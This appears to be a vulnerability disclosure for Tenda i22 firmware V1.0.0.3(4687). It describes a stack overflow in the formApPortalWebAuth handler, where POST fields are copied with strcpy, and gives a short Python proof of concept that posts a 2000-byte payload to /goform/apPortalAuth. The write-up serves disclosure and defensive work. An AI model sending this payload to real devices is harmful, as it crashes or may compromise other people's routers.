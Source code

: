 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalWebAuth` function. This function accepts the `webUserName` parameter and the `webUserPassword` parameter from a POST request. Both of the parameters are later copied by `strcpy` directly to variables on the stack, causing a stack overflow.

![image1](image/1.png)

The `data` parameter is also a point of vulnerability, and will be copied to the stack variable in subsequent processing via `sprintf `or `strcpy`.

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalAuth"
payload = b"a"*2000

data = {
    "webUserName": "BeaCox",
    "webUserPassword": payload,
    "data": "vulnerable"
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)
